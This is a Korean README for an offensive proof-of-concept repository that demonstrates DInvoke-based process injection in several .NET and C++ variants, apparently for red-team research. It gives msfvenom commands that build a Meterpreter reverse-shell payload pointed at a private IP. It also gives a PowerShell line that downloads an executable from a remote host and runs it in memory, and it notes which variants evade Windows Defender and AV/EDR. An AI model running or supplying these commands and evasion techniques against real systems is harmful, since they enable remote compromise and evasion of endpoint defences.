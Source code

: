 ﻿# dinvokepoc 

[관련 블로그 글 - DInvoke 개념, PoC, 대응방안](https://blog.sunggwanchoi.com/dinvoke-concept-poc-detection-kor/])

이 리포는 Dynamic Invoke와 관련된 PoC를 가지고 있습니다. 
모든 PoC는 다음 함수 - OpenProcess,VirtualAllocEx, WriteProcessMemory, VirtualProtectEx, CreateRemoteThread - 를 이용한 기본적인 프로세스 인젝션입니다. 

PoC에 들어가는 페이로드는 모두 메타스플로잇의 Meterpreter를 사용했습니다. 
특정 PoC에는 페이로드 xor 암호화를 했습니다. 

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.48.111 lport=443 -f c`

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.48.111 lport=443 -f csharp`

다음은 4가지 PoC들에 관련된 정보입니다. 

## dinvokeaot

dinvokeaot 프로젝트는 특별한 AoT 컴파일을 사용하기 때문에 다음과 같이 컴파일 합니다. 
```
1. 파워쉘 실행 (Visual Studio의 Developer powershell 사용 불가!!) 
2. cd <설치경로>\dinvoke\dinvokeaot
3. dotnet publish -r win-x64 -c release 
4. 다음의 경로 확인 <설치경로>\dinvokepoc\dinvokeaot\bin\release\net5.0\win-x64\publish\dinvokeaot.exe 
```

.NET 5.0 기반, Ahead of Time Compilation, Classic DInvoke + Native API (ntdll.dll) 사용. 

IAT 후킹 우회, API 후킹 우회 불가 

IL --> Native PE file 이라 AV/EDR 우회 시 유용 

Windows Defender 우회 

## dinvokemm
.NET 4.0 Framework 기반, Manual Mapping + kernel32.dll 사용. 

IAT 후킹, API 후킹 모두 우회 

인-메모리 실행 가능 

Windows Defender 우회


파워쉘 인-메모리 실행 예시 
```
$a = (New-Object net.webclient).DownloadData("http://192.168.48.160:9999/dinvokemm.exe")
[System.Reflection.Assembly]::Load($a)
[dinvokemm.dinvokemm]::Main("")
```

## cppconsole
C++ 를 이용한 기본적인 PoC 

Windows Defender 우회 불가 

## pinvoke 
.NET 4.0 Framework 기반, pinvoke 사용 

IAT 후킹 우회 불가, API 후킹 우회 불가 

Windows Defender 우회 불가 
